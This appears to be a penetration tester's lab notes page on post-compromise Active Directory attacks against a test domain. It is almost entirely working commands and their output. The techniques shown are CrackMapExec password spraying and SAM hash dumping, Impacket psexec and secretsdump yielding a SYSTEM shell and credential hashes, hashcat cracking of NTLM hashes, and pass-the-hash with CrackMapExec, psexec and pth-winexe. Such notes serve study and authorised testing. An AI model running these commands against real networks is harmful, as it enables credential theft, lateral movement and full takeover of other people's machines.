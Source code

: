 # Post-Compromise Attacks

## Pass the password

### CrackMapExec
- Install: `sudo apt install crackmapexec`
- Pass the password on the domain: `crackmapexec smb 10.0.2.0/24 -u fcastle -d DOMAIN.local -p Password1` If the password is the same for another machine in the network we will get ownership on this new machine too
```
┌──(root💀kali)-[~kali]
└─# crackmapexec smb 10.0.2.0/24 -u fcastle -d MARVEL.local -p Password1
SMB         10.0.2.5        445    HYDRA-DC         [*] Windows 10.0 Build 17763 x64 (name:HYDRA-DC) (domain:MARVEL.local) (signing:True) (SMBv1:False)
SMB         10.0.2.4        445    THEDEFENDER      [*] Windows 10.0 Build 19041 x64 (name:THEDEFENDER) (domain:MARVEL.local) (signing:False) (SMBv1:False)
SMB         10.0.2.15       445    THEPUNISHER      [*] Windows 10.0 Build 19041 x64 (name:THEPUNISHER) (domain:MARVEL.local) (signing:False) (SMBv1:False)
SMB         10.0.2.5        445    HYDRA-DC         [+] MARVEL.local\fcastle:Password1 
SMB         10.0.2.4        445    THEDEFENDER      [+] MARVEL.local\fcastle:Password1 (Pwn3d!)
SMB         10.0.2.15       445    THEPUNISHER      [+] MARVEL.local\fcastle:Password1 (Pwn3d!)
```
- We can also add --sam to the previous command to dump the sam file here we got 5 sam hashes
```
┌──(root💀kali)-[~kali]
└─# crackmapexec smb 10.0.2.0/24 -u fcastle -d MARVEL.local -p Password1 --sam
SMB         10.0.2.15       445    THEPUNISHER      [*] Windows 10.0 Build 19041 x64 (name:THEPUNISHER) (domain:MARVEL.local) (signing:False) (SMBv1:False)
SMB         10.0.2.5        445    HYDRA-DC         [*] Windows 10.0 Build 17763 x64 (name:HYDRA-DC) (domain:MARVEL.local) (signing:True) (SMBv1:False)
SMB         10.0.2.4        445    THEDEFENDER      [*] Windows 10.0 Build 19041 x64 (name:THEDEFENDER) (domain:MARVEL.local) (signing:False) (SMBv1:False)
SMB         10.0.2.15       445    THEPUNISHER      [+] MARVEL.local\fcastle:Password1 (Pwn3d!)
SMB         10.0.2.5        445    HYDRA-DC         [+] MARVEL.local\fcastle:Password1 
SMB         10.0.2.4        445    THEDEFENDER      [+] MARVEL.local\fcastle:Password1 (Pwn3d!)
SMB         10.0.2.15       445    THEPUNISHER      [+] Dumping SAM hashes
SMB         10.0.2.4        445    THEDEFENDER      [+] Dumping SAM hashes
SMB         10.0.2.15       445    THEPUNISHER      Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.0.2.4        445    THEDEFENDER      Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.0.2.15       445    THEPUNISHER      Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.0.2.4        445    THEDEFENDER      Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.0.2.15       445    THEPUNISHER      DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.0.2.4        445    THEDEFENDER      DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.0.2.15       445    THEPUNISHER      WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:e6cedee56d27d175f48042b53cb6b242:::
SMB         10.0.2.15       445    THEPUNISHER      Frank Castle:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
SMB         10.0.2.15       445    THEPUNISHER      [+] Added 5 SAM hashes to the database
SMB         10.0.2.4        445    THEDEFENDER      WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:25e61d7e5702c678e3be8711c03b7837:::
SMB         10.0.2.4        445    THEDEFENDER      Jessica Jones:1001:aad3b435b51404eeaad3b435b51404ee:c39f2beb3d2ec06a62cb887fb391dee0:::
SMB         10.0.2.4        445    THEDEFENDER      [+] Added 5 SAM hashes to the database
```

### psexec
We can also use psexec to try to get a shell on the other machine
```
┌──(root💀kali)-[~kali]
└─# psexec.py marvel/fcastle:Password1@10.0.2.4
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Requesting shares on 10.0.2.4.....
[*] Found writable share ADMIN$
[*] Uploading file IEoFnNEZ.exe
[*] Opening SVCManager on 10.0.2.4.....
[*] Creating service YXVX on 10.0.2.4.....
[*] Starting service YXVX.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.19044.1288]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>hostname
THEDEFENDER
```

## Dumping Hashes

### Impacket - Secretsdump.py
- We can dump hashes from our compromised machines in the network
```
┌──(root💀kali)-[~kali]
└─# secretsdump.py marvel/fcastle:Password1@10.0.2.15
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Service RemoteRegistry is in stopped state
[*] Service RemoteRegistry is disabled, enabling it
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xfafe40d7e147c04806fe29ef03e04386
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:e6cedee56d27d175f48042b53cb6b242:::
Frank Castle:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
[STRIPPED]
```

## Crack NTLM hashes

### Hashcat
```
┌──(root💀kali)-[~kali]
└─# hashcat -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt 
hashcat (v6.1.1) starting...

[STRIPPED]

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

64f12cddaa88057e06a81b54e73b949b:Password1       
31d6cfe0d16ae931b73c59d7e0c089c0:                
c39f2beb3d2ec06a62cb887fb391dee0:Password2       
[STRIPPED]
```

## Pass the Hash Attack

*Note: ntlmv1 can be passed but ntlmv2 can not.*

### Crackmapexec

To pass the hash in the following line we will only need the last part after the last semicolon (only the NTHash):  
Here is the structure of the hash: `User Name:ID:LMHASH:NTHASH:::`
With this: `Frank Castle:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::`  
We will use this: `64f12cddaa88057e06a81b54e73b949b`  
We will then use this command:
```
crackmapexec smb 10.0.2.0/24 -u "Frank Castle" -H 64f12cddaa88057e06a81b54e73b949b --local-auth
```
We would get something like this:
```
SMB         10.0.2.15       445    THEPUNISHER      [*] Windows 10.0 Build 19041 x64 (name:THEPUNISHER) (domain:THEPUNISHER) (signing:False) (SMBv1:False)
SMB         10.0.2.5        445    HYDRA-DC         [*] Windows 10.0 Build 17763 x64 (name:HYDRA-DC) (domain:HYDRA-DC) (signing:True) (SMBv1:False)
SMB         10.0.2.4        445    THEDEFENDER      [*] Windows 10.0 Build 19041 x64 (name:THEDEFENDER) (domain:THEDEFENDER) (signing:False) (SMBv1:False)
SMB         10.0.2.15       445    THEPUNISHER      [+] THEPUNISHER\Frank Castle 64f12cddaa88057e06a81b54e73b949b 
SMB         10.0.2.5        445    HYDRA-DC         [-] HYDRA-DC\Frank Castle:64f12cddaa88057e06a81b54e73b949b STATUS_LOGON_FAILURE 
SMB         10.0.2.4        445    THEDEFENDER      [-] THEDEFENDER\Frank Castle:64f12cddaa88057e06a81b54e73b949b STATUS_LOGON_FAILURE 
```

### PSexec

We can use the same attack with psexec to get a shell except we will be using the full hash 
For this `Frank Castle:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::`
We will use this: `aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b`  
```
┌──(root💀kali)-[~kali]
└─# psexec.py marvel/fcastle@10.0.2.15 -hashes aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Requesting shares on 10.0.2.15.....
[*] Found writable share ADMIN$
[*] Uploading file fQsiaobC.exe
[*] Opening SVCManager on 10.0.2.15.....
[*] Creating service OnEf on 10.0.2.15.....
[*] Starting service OnEf.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.19044.1288]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

### pth winexe

- `pth-winexe -U 'admin%hash' //10.10.67.135 cmd.exe`

